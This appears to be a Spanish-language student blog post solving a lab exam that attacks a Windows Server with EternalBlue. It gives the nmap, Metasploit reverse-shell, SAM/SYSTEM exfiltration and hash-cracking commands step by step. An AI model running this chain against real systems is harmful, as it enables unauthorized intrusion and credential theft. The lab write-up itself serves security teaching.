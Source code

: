```yaml
---
title: EXAMEN PARCIAL
date: 2024-11-03 20:56:00 -05:00
categories: [Ciberseguridad, Seguridad Informática]
tags: [SMB, Reconnaissance, Weaponization, Exploitation, SSH]  # TAG names should always be lowercase
---
```


En este post, vamos a desarrollar el examen parcial.

# 2.1. Escaneo de Red y Enumeración de Servicios (2 puntos) 

nmap -p 139,445 --script smb-protocols 10.0.2.4

![alt text](/assets/images/1.png)

### Explicación:
•	Los puertos 139 y 445 están asociados con el servicio SMB en Windows. Usamos el flag --script smb-protocols de Nmap para enumerar las versiones de los protocolos SMB que están habilitados.
•	En los resultados, se muestra que NT LM 0.12 (SMBv1) está habilitado en la máquina Windows Server (10.0.2.4), lo cual es vulnerable.


# 2.2. Exploración de la Vulnerabilidad 

Uso del exploit exploit/windows/smb/ms17_010_eternalblue en Metasploit:

•	EternalBlue (MS17-010) explota una vulnerabilidad en SMBv1, permitiendo ejecución remota de código en sistemas sin parchar, como Windows Server 2008 R2.
•	Este exploit es ideal para esta tarea ya que se enfoca en SMBv1, lo que nos permite ejecutar código y obtener una conexión remota con el servidor si tiene SMBv1 activo y es vulnerable a EternalBlue.

# 2.3. Configuración del Exploit en el Framework Metasploit

1.	Inicia Metasploit:
msfconsole
2.	Selecciona el módulo de EternalBlue:
use exploit/windows/smb/ms17_010_eternalblue
3.	Configura los parámetros necesarios:

   
![alt text](/assets/images/2.png)
### Explicación de los parámetros:
•	RHOSTS (Remote Host): IP de la máquina objetivo (Windows Server 10.0.2.4). Indica a Metasploit dónde dirigir el ataque.
•	LHOST (Local Host): IP de la máquina atacante (Kali Linux 10.0.2.9). Es necesario para recibir la conexión de vuelta (reverse shell).
•	PAYLOAD: windows/x64/meterpreter/reverse_tcp crea un payload de reverse shell que te permitirá obtener acceso remoto y control sobre la máquina víctima.


# 2.4. Ejecución del Exploit (2 puntos)

Comando para ejecutar el exploit:
exploit
Confirmación de éxito:

![alt text](/assets/images/3.png)

### Explicación de los parámetros:
•	El exploit se ejecuta correctamente, mensaje en Metasploit Meterpreter session X opened.
•	Este mensaje confirma que se ha establecido una conexión con la máquina objetivo (Windows Server 10.0.2.4) y ahora se tiene una sesión interactiva.


# 2.5. Exfiltración de Archivos SAM y SYSTEM 

Pasos para exfiltrar los archivos:
Sube el script vssown.vbs a la máquina víctima:
upload /home/user/Desktop/vssown.vbs C:\Windows\Temp\vssown.vbs

![alt text](/assets/images/4.png)

Copia los archivos SAM y SYSTEM desde la copia de volumen de sombra:
![alt text](/assets/images/5.png)

Descarga los archivos a tu máquina atacante:
    download C:\Windows\Temp\SAM /ruta/en/Kali/SAM
    download C:\Windows\Temp\SYSTEM /ruta/en/Kali/SYSTEM


# 2.6. Análisis de los Archivos Exfiltrados 

### Extracción de hashes de contraseñas en Kali Linux:
1.	Usa samdump2 para extraer los hashes de los archivos SAM y SYSTEM:
samdump2 /ruta/en/Kali/SYSTEM /ruta/en/Kali/SAM > hashes.txt
2.	Con los hashes en hashes.txt, intenta descifrarlos con John the Ripper:
john --format=NT hashes.txt
o	O bien, usa Hashcat para realizar un ataque con GPU:
hashcat -m 1000 hashes.txt /ruta/a/wordlist

Explicación:
•	Samdump2 extrae los hashes de los archivos SAM y SYSTEM, que son esenciales para intentar descifrar las contraseñas de los usuarios.
•	John the Ripper y Hashcat permiten descifrar los hashes mediante ataques de diccionario o fuerza bruta.

